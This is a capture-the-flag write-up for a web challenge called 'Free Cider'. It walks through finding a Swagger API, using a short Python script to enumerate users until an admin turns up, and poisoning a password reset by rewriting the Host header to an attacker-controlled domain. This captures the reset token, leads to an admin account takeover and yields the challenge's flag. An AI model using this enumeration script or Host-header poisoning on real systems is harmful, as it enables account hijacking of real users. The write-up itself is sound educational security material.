






# Free Cider
> Author : Mika - @bWlrYQ

## "Recon"

As soon as we arrive on the challenge page, we are greeted with a login form:



According to the website, registration is closed, so we can only log in. Inspecting the source code, we can spot at the end the following:

```html
<!-- 
                            Note for admins : 
For the sake of security, remove the bloody swagger UI from the production build.
-->
```

This means the web app relies on an API and that we are given the swagger associated to it. By trying various endpoints, we finally come to the `/swagger`: 



The API isn't very extensive which is a good point for us, less features to test ! We can focus on 2 interesting endpoints: `/api/v1/user/{user_id}` and `/api/v1/reset-password`

The first one allows us to list a user's id, status (admin or not) and his username which can be interesting to try the reset password feature. 

## User enumeration

Using the API documentation, we can write the following dirty script that will enumerate users:

```py
from requests import get

HOST = "http://example.lan"
i = 1
foundAdmin = False

while not foundAdmin:
    res = get(f"{HOST}/api/v1/user/{i}")
    if res.status_code == 200:
        if res.json()['admin']:
            print(res.json())
            foundAdmin = True
    i+=1
```

By running it, we get the following output: 

```json
{
    'admin': True, 
    'id': 9, 
    'username': 'danielle_fleming96'
}
```

## Password Reset Poisoning

So user `danielle_fleming96` is an admin, we need to manage to log into his account. We could have tried a bruteforce attack at first, but there is the "Reset Password" feature in the API and on the login page, which hints us on the fact that we should examinate that one closely. Reset password features aren't very common in CTF challenges.



A flaw that can sometimes be found in reset password features is the fact that the server will rely on the `Host` HTTP header to generate the link sent to the user. Which means that if we intercept the request before sending it to the app and edit the `Host` header value with a domain (or ip address) that belongs to us, the victim will receive a link crafter with our domain. 

If this victim clicks on the maliciously crafted link, instead of ending on the original web application, it'll arrive on ours host. By looking to the logs, we'll see the token that's in the GET parameters and will be able to use it to reset the user's password.

Intercepting the password reset request in Burpsuite, we end up with:

```
POST /api/v1/reset-password HTTP/1.1
Host: example.lan
User-Agent: ^_^
Content-Type: application/json
Content-Length: 33
DNT: 1
Connection: close
Cookie: session=eyJub25jZSI6IjM1NjAxMzAwNTM1YjU4NTVlNjdmMTI1NWU0ZDgyZWNiIn0.Zb50Dw.xxe0xUSFSX6RUu5GjOZHA_sOE4I

{"username":"danielle_fleming96"}
```

By editing the `Host` value to `example.malicious` and sending it through the repeater, we get a success message which means everything went fine for the app on the server.



Reviewing our HTTP listener's logs, we can see:

```
Serving HTTP on 0.0.0.0 port 3333 (http://0.0.0.0:3333/) ...
172.17.0.4 - - [03/Feb/2024 17:33:08] code 404, message File not found
172.17.0.4 - - [03/Feb/2024 17:33:08] "GET /reset?token=b4652807-07dd-4044-93ab-bb3b00606cfa HTTP/1.1" 404 -
```

This means the victim has clicked on the malicious link and that it has given us the reset token. Bingo! If we visit `http://example.lan/reset?token=b4652807-07dd-4044-93ab-bb3b00606cfa` we have the following result:



By logging into the app with the credentials we just received, we get access to the free Cider Panel :).



Clicking on the "GET FREE CIDER" button give ous our flag: `GCC{P@ssw0rd_RST_Poison1nG_R0ck$!}`.